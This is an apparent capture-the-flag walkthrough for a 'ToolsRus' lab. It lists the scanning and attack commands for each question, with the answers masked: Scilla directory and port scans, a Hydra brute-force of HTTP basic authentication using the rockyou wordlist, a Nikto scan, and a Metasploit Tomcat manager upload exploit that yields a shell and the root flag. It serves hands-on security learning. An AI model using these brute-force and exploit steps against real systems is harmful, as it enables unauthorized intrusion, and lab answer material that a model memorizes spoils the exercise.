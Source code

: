 # ToolsRus

- What directory can you find, that begins with a "g"?

	- Considering using Scilla `scilla dir -target <TARGET_IP>`
	- `guide*****`

- Whose name can you find from this directory?

	- `bob`

- What directory has basic authentication?

	- `pro******`

- What is bob's password to the protected part of the website?

	- `hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -vV 10.10.213.196 http-get /protected`
	- `*******`

- What other port that serves a webs service is open on the machine?

	- `scilla port -target <TARGET_IP>`
	- `****`

- Going to the service running on that port, what is the name and version of the software?

	- Visit that page
	- `**************`

- How many documentation files did Nikto identify?

	- `nikto -h <TARGET_IP>:PORT`
	- `*`

- What is the server version (run the scan against port 80)?

	- `Apache/2.4.18`

- What user did you get a shell as?

	- `msfconsole`
	- `search tomcat 7`
	- `use multi/http/tomcat_mgr_upload`
	- `set RPORT ****`
	- `set RHOSTS <TARGET_IP>`
	- `set HttpUsername bob`
	- `set HttpPassword *******`
	- `run`
	- `getuid`
	- `****`

- What text is in the file /root/flag.txt

	- `cat /root/root.txt`
	- `************************`


